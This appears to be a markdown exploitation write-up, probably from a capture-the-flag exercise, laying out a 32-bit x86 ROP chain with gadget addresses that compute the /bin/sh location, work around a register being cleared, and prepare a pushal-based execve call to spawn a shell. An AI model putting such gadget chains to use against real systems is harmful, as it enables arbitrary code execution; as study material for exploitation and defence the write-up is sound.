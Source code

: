 
## the ROP chain

### setting `edx` to `/bin/sh` location
1. put inside `edx` the `0x7f202020` and inside `edi`  `0x66596834`
	```
	0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret
	```
2. setting `eax` to `0x66596834`
	**problem**
	* when loading `edx`, `eax` is getting cleaned
	put inside `edx`   `0x66596834` and then mov it to `eax`
	```
	0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret
	0x556a6a7f : nop ; mov eax, edx ; ret
	```
	**solution**
	mov to `eax` the value from a different register. 
	* we can `xchg` it with `ecx` .
		1. `ecx` will be `0x66596834`
		```
		0x556d2a51 : pop ecx ; add al, 0xa ; ret
		```
		2.  `xchg` `ecx` and `eax`
		```
		0x55617a5f : xchg ecx, eax ; mov eax, 0xff ; jne 0xb9a38 ; repz ret		
		```
	* we can mov `edi` to it and set `edi` to the `pop_3_gadget` (`0x5557506d`)
		 
		 `0x555f7969 : mov eax, edi ; pop esi ; pop edi ; ret`			
3. add to `eax` the overflow value.
	```
	0x5557734b : add eax, 0xc35b0000 ; repz ret
	```
4. sub `edx`  with `eax`
	```
	0x5560365c : sub edx, eax ; pop esi ; mov eax, edx ; pop edi ; pop ebp ; ret
	```
### clean `ecx` and `eax`
```
0x555d203e : nop ; nop ; xor eax, eax ; ret
0x55617a5f : xchg ecx, eax ; mov eax, 0xff ; jne 0xb9a38 ; repz ret
0x555d203e : nop ; nop ; xor eax, eax ; ret
```

### setting the `pushal` final registers
1. setting `ebx` to `execve` (`0x5561676a`)  with
	```
	0x5557734e : pop ebx ; ret
	```
2. setting `edi` to  `0x5557506d` (`0x5557506d : pop esi ; pop edi ; pop ebp ; ret`)
	this could be done in the first gadget
